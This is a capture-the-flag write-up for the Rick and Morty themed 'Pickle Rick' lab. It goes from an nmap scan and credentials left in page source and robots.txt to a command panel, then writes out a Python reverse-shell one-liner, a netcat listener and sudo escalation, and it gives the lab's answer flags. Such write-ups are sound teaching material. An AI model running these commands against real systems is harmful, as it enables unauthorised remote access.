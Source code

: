 Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

Machine IP address:
```
10.10.159.244
```
We start our investigation by performing a nmap scan:
```
nmap -A -T4 10.10.159.244
```
in the results we can see that there are multiple ports open, related to different services including:
- `22 - ssh`
- `80 - http`

We go and check what is available at the http port via our browser by navigating to:
```
http://10.10.159.244:80
```
or just:
```
10.10.159.244
```
We get the following webpage:
![[Pasted image 20250214191937.png]]

When we go check the page source, we see the username left as a comment:
```
R1ckRul3s
```
When we try to brute-force the password using "Hydra", we get an error that the host machine doesn't support password authentication.

When we try to find some hidden paths via the '/robots.txt' file we get a not-real path:
```
Wubbalubbadubdub
```
We then proceed by trying to find some other directories using "dirbuster". Within the results we find a login page at:
```
/login.php
```
We know we have a username. Do we have a password? Let's try the one we found earlier. We successfully logged in using the credentials:
```
Username: R1ckRul3s
Password: Wubbalubbadubdub
```
We have reached "Rick Portal". We have some section, only available to the real rick, and a command panel.
In the panel's source code we see a suspicious comment:
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
We base64-decode it several times to reveal it's a rabbit hole.
We proceed by trying to execute some commands:
```
ls -la
```
![[Pasted image 20250216115838.png]]
We tried to use the 'cat' command but it's disabled.
Instead, we try to navigate to the path in the browser:
```
http://10.10.159.244/Sup3rS3cretPickl3Ingred.txt
```
Gives us:
```
mr. meeseek hair
```
Looking at the clue.txt path tells us to look around the file system for the other ingredient. After some looking around we found this path:
```
/home/rick/second ingredients
```
We don't see a way to get it with some of the commands disabled.
Using the command:
```
python3 -c "print('hello')"
```
We see we have Python3 enabled. Let's try to get a reverse shell using python. We take a prepared command:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and we modify it to fit our settings:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.4.102",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
where '10.9.4.102' is our own IP address, and port 9999 is a port number of our choosing to communicate over.
On our side, we initiate listening on port 9999 using netcat:
```
nc -lnvp 9999
```
Now we execute the shell command in the command panel, and we get the shell:
![[Pasted image 20250216123121.png]]

We still can't access:
```
/home/rick/second ingredients
```
So we tried getting root privileges using:
```
sudo bash
```
and we succeed! Now using (after traversing into the relevant path):
```
cat "second ingredients"
```
We can read the second ingredient:
```
1 jerry tear
```
Since we are the root, we might as well check what inside it's home directory:
```
cd /home/root
ls
```
and we see:
```
3rd.txt
```
using 'cat' we get:
```
fleeb juice
```
